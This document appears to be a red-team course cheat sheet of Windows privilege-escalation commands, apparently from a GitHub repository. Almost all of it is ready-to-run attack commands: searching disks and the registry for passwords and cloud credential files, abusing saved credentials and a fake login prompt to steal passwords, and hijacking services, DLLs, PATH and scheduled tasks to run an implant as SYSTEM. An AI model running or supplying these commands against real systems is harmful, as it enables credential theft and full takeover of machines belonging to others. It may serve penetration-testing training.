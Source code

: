 # RTO Sektor7 Cheat Sheet

### Credentials

- Search for passwords

```
C:\> dir /b /a /s c:\ > c:\rto\c-dirs.txt
C:\> type c:\rto\c-dirs.txt | findstr /i passw
```

- Search for interesting files

```
C:\> type c:\rto\c-dirs.txt | findstr /i ssh
C:\> type c:\rto\c-dirs.txt | findstr /i kdbx
C:\> type c:\rto\c-dirs.txt | findstr /i vnc
```

- Good targets:

  - install, backup, .bak, .log, .bat, .cmd, .vbs, .cnf, .conf, .config, .ini, .xml, .txt, .gpg, .pgp, .p12, .der, .csr, .cer, id_rsa, id_dsa, .ovpn, .rdp, vnc, ftp, ssh, vpn, git, .kdbx, .db
  - unattend.xml
  - Unattended.xml
  - sysprep.inf
  - sysprep.xml
  - VARIABLES.DAT
  - setupinfo
  - setupinfo.bak
  - web.config
  - SiteList.xml
  - .aws\credentials
  - .azure\accessTokens.json
  - .azure\azureProfile.json
  - gcloud\credentials.db
  - gcloud\legacy_credentials
  - gcloud\access_tokens.db
 
- Search for passwords in the Registry

```
C:\> reg query "HKCU\Software\ORL\WinVNC3\Password"
C:\> reg query "HKCU\Software\TightVNC\Server"
C:\> reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"
C:\> reg query "HKCU\Software\OpenSSH\Agent\Keys"
C:\> reg query HKLM /f password /t REG_SZ /s
C:\> reg query HKCU /f password /t REG_SZ /s
```

- Abuse Credential Manager to run a application as another user using saved credentials

```
C:\> cmdkey /list
C:\> runas /savecred /user:admin cmd.exe
C:\> runas /savecred /user:admin c:\rto\lpe\implant\implant.exe
C:\> runas /savecred /user:admin "c:\windows\system32\cmd /c dir /b /a /s c:\users\admin > c:\rto\admin.txt"
```

- Rob Credential Manager using a custom script based on https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/dumpCredStore.ps1

```
C:\> powershell Import-Module c:\rto\lpe\cms.ps1 ; Enum-Creds
```

- Ask user for credentials using a trick prompt

```
C:\> powershell "$cred = $host.ui.promptforcredential('Failed Authentication','',[Environment]::UserDomainName+'\'+[Environment]::UserName,[Environment]::UserDomainName); $cred.getnetworkcredential().password"
C:\> powershell "$cred = $host.ui.promptforcredential('Failed Authentication','',[Environment]::UserDomainName+'\'+'admin',[Environment]::UserDomainName); $cred.getnetworkcredential().password"
```

### Unsecured Objects

- Search for unquoted service paths

```
C:\> wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """"
```

- Search for services with weak permissions

```
C:\> c:\rto\tools\si\accesschk.exe -accepteula -wuvc "Everyone" *
C:\> c:\rto\tools\si\accesschk.exe -accepteula -wuvc "Users" *
C:\> c:\rto\tools\si\accesschk.exe -accepteula -wuvc "Authenticated Users" *

C:\> sc query sshd
C:\> sc qc sshd
C:\> sc config sshd binPath= "c:\rto\lpe\implant\implant.exe"
C:\> sc start sshd

C:\> sc stop sshd
C:\> sc config sshd binPath= "c:\Program Files\OpenSSH\sshd.exe"
```

- Search for service Registry keys with weak permissions

```
C:\> c:\RTO\Tools\SI\accesschk.exe -accepteula -kvuqsw hklm\System\CurrentControlSet\services > c:\rto\regs.txt

C:\> reg query HKLM\SYSTEM\CurrentControlSet\services\IKEEXT
C:\> reg add HKLM\SYSTEM\CurrentControlSet\services\IKEEXT /v ImagePath /t REG_EXPAND_SZ /d C:\rto\lpe\implant\implantsrv.exe /f
C:\> sc stop ikeext
C:\> sc start ikeext

C:\> reg add HKLM\SYSTEM\CurrentControlSet\services\IKEEXT /v ImagePath /t REG_EXPAND_SZ /d "%systemroot%\system32\svchost.exe -k netsvcs -p" /f
```

### Execution Flow Hijacking

- Search for files with weak permissions that we can replace with backdoored versions e.g. Putty.exe

```
C:\> c:\rto\tools\si\accesschk.exe -accepteula -wus "Users" c:\*.* > c:\rto\fld-usr.txt
C:\> c:\rto\tools\si\accesschk.exe -accepteula -wus "Authenticated Users" c:\*.* > c:\rto\fld-authusr.txt
```

- Exploit the PATH variable

```
C:\> reg query "HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\Environment"
C:\> icacls c:\rto\bin
C:\> copy c:\windows\system32\cmd.exe c:\rto\bin\notepad.exe

C:\> del c:\rto\bin\notepad.exe
```

- Exploit a missing service

```
C:\> c:\RTO\Tools\si\autorunsc64.exe -a s | more
C:\> sc query AdobeUpdate
C:\> sc qc AdobeUpdate
C:\> copy c:\RTO\LPE\implant\implantsrv.exe c:\rto\bin\AdobeUpdate.exe

C:\> sc stop AdobeUpdate
C:\> sc start AdobeUpdate

C:\> del c:\rto\bin\AdobeUpdate.exe
```

- Exploit a missing scheduled task

```
C:\> c:\RTO\Tools\si\autorunsc64.exe -a t | more
C:\> schtasks /query /tn OneDriveChk /xml

C:\> wmic useraccount where sid='S-1-5-21-3461203602-4096304019-2269080069-1003' get name

C:\> copy c:\RTO\LPE\implant\implant.exe C:\RTO\bin\OneDriveChk.exe

C:\> del C:\RTO\bin\OneDriveChk.exe
```

- Hijack a DLL

```
C:\> cd c:\RTO\LPE\DLL-hijack
C:\> compile.bat
C:\> copy c:\RTO\LPE\DLL-hijack\winmm.dll c:\RTO\Tools\putty\

C:\> del c:\RTO\Tools\putty\winmm.dll
```

- Bypass UAC

```
Repo with up-to-date UAC bypass exploits:
https://github.com/hfiref0x/UACME
```

### Getting SYSTEM

- Search for AlwaysInstallElevated MSI setting

```
C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

- Create a new service for SYSTEM

```
run from elevated admin cmd/console:
C:\> sc create lol binPath= "c:\RTO\LPE\implant\implant.exe"
C:\> sc start lol
C:\> sc stop lol
C:\> sc delete lol
```

- Abuse tokens

```
C:\> reg query HKLM\SYSTEM\CurrentControlSet\services\IKEEXT
C:\> reg add HKLM\SYSTEM\CurrentControlSet\services\IKEEXT /v ImagePath /t REG_EXPAND_SZ /d c:\RTO\LPE\2SYSTEM\TokenDance\tokendance.exe /f

C:\> sc stop ikeext
C:\> sc start ikeext

C:\> reg add HKLM\SYSTEM\CurrentControlSet\services\IKEEXT /v ImagePath /t REG_EXPAND_SZ /d "%systemroot%\system32\svchost.exe -k netsvcs -p" /f
```

- Exploit named pipes

```
C:\> cd \RTO\LPE\2SYSTEM\Piper
C:\> compile.bat

run from elevated admin cmd/console:
C:\> cd \RTO\LPE\2SYSTEM\Piper
C:\> piper.exe
```
